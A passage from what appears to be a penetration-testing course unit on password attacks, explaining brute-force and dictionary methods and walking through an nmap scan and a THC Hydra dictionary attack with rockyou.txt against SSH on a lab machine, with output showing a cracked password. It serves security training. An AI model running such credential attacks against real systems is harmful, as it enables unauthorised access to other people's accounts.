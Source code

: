 Brute-force attacks attempt every possible password variation, working systematically through every combination of letters, digits and special characters. Although this process may take considerable time depending on the password length and the protocol used, these attacks could theoretically bypass any ill-protected password-based authentication system.

On the other hand, dictionary attacks attempt to authenticate to services with passwords from lists of common words (_wordlists_). If the correct password is not contained in the wordlist, the dictionary attack will fail.

In this Learning Unit, we'll use dictionary attacks to discover valid credentials for network services and HTTP login forms.

## 16.1.1. SSH and RDP

In this section, we'll execute dictionary attacks against the common SSH and RDP services using the open-source [_THC Hydra_](https://github.com/vanhauser-thc/thc-hydra) tool, which can execute a broad variety of password attacks against a variety of network services and protocols. We'll also use the popular **rockyou.txt** wordlist, which contains over 14 million passwords. Both of these are pre-installed on our Kali machine.

To begin, we will start the BRUTE machine (VM #1 under Resources). In the first example, we'll attack the SSH service (port 2222) on this machine, which has an IP address of 192.168.50.201. We'll attempt to determine the password for the user _george_.

The IP address of BRUTE may differ in your environment.

Before we start our dictionary attack, we should confirm that the target is running an SSH service on port 2222.

```
kali@kali:~$ sudo nmap -sV -p 2222 192.168.50.201
...
PORT   STATE SERVICE
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
```

> Listing 1 - Checking if target is running a SSH service

The output indicates that SSH is open. Let's assume that through the _information gathering process_ we have already discovered the _george_ user.

It's worth noting that the format of the username also suggests that the company may use the first name of the user for account names. This information may assist us in later information gathering attempts.

Next, let's prepare to use the **rockyou.txt** wordlist file. Since the file is compressed to save space, we must uncompress it with [**gzip -d**](https://www.gnu.org/software/gzip/). Finally, we can run **hydra**.

We'll attack a single username with **\-l george**, specify the port with **\-s**, indicate our password list with **\-P** and define our target with **ssh://192.168.50.201**:

```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```